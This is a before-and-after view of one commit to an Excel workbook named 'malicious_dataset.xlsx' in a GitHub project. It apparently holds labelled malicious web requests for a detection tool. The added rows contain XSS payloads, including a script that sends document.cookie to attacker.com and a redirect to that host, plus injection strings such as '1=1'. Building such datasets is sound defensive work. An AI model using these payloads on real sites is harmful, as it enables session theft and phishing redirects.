

Before and after one commit to WinnieWongWong/TODOLIST, an Excel workbook: python_app/malicious/data/malicious_dataset.xlsx, sheet Sheet1, drawn as a sheet; values as stored, in another font and other column widths than the file's, no borders; addresses are those after the commit; ↵ is a line break in a cell; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/python_app/malicious/data/malicious_dataset.xlsx (sheet Sheet1)
+++ b/python_app/malicious/data/malicious_dataset.xlsx (sheet Sheet1)
+column I (Desciption), rows 2-4: 1=1 | 1=1 | la -la
+row 5: 4 | GET | /profile?user=<script>fetch('http://attacker.com/cookie?cookie=' + document.cookie)</script> |  |  | DOM-based XSS | 1 | High risk | Modify client code Dom element
@@ column A (id) renumbered between rows 6 and 8 @@
+row 9: 8 | GET | /login?redirect=<script>document.location='http://attacker.com'</script> |  |  | URL Manipulation | 1 | High risk | Hacker create URL leading user to bad site
+row 10: 9 | POST | /register | Host: example.com ↵ Content-Type: application/x-www-form-urlencoded | username=<script>alert('XSS')</script>&password=12345 | Script Injection via Form Fields | 1 | High risk | If a form accepts input without validation, an attacker can inject a script
```
Also changed, not shown: 2 other files.
